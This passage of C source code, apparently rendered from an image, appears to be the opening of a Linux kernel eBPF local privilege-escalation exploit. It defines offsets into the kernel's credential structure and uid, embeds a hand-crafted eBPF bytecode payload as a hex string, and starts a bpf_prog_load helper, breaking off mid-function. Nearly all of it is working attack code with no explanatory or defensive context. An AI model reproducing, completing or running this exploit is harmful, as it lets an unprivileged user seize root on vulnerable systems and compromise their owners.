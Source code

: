```c
#define PHYS_OFFSET 0xffff880000000000
#define CRED_OFFSET 0x5f8
#define UID_OFFSET 4
#define LOG_BUF_SIZE 65536
#define PROGSIZE 328

int sockets[2];
int mapfd, progfd;

char *__prog = 	"\xb4\x09\x00\x00\xff\xff\xff\xff"
		"\x55\x09\x02\x00\xff\xff\xff\xff"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x18\x19\x00\x00\x03\x00\x00\x00"
		"\x00\x00\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x00\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x06\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x01\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x07\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x02\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x08\x00\x00\x00\x00\x00\x00"
		"\xbf\x02\x00\x00\x00\x00\x00\x00"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x55\x06\x03\x00\x00\x00\x00\x00"
		"\x79\x73\x00\x00\x00\x00\x00\x00"
		"\x7b\x32\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x55\x06\x02\x00\x01\x00\x00\x00"
		"\x7b\xa2\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x7b\x87\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00";

char bpf_log_buf[LOG_BUF_SIZE];

static int bpf_prog_load(enum bpf_prog_type prog_type,
		  const struct bpf_insn *insns, int prog_len,
		  const char *license, int kern_version) {
	union bpf_attr attr = {
		.prog_type = prog_type,
		.insns = (__u64)insns,
		.insn_cnt = prog_len / sizeof(struct bpf_insn),
		.license = (__u64)license,
		.log_buf = (__u64)bpf_log_buf,
		.log_size = LOG_BUF_SIZE,
```